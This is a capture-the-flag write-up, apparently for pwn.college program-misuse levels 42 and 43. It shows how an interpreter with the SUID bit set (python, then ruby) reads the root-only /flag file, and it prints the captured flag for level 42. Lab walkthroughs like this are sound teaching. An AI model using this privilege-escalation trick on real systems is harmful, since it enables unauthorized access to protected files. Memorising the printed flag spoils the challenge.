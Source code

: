 &nbsp;

## level 42

```
hacker@program-misuse~level42:/$ /challenge/babysuid_level42 
Welcome to /challenge/babysuid_level42!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/python.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level42) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/python!
```

Python is a scripting language. As such, we can use the following script to read the `/flag`.

```python
with open("/flag", "r") as flag:
    print(flag.read())
```

We have to use the `python` utility to execute the script.

```
hacker@program-misuse~level42:~$ python babysuid42.py
pwn.college{s0XtPzYVFXtT1tQ-IdvZxhZM8d6.0FN4EDL4ITM0EzW}
```

&nbsp;

## level 43

```
hacker@program-misuse~level43:/$ /challenge/babysuid_level43 
Welcome to /challenge/babysuid_level43!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/ruby.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level43) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ruby!
```

Ruby is a scripting language. As such, we can use the following script to read the `/flag`.

```ruby
fileObject = File.open("/flag","r");
print(fileObject.read());
fileObject.close();
```
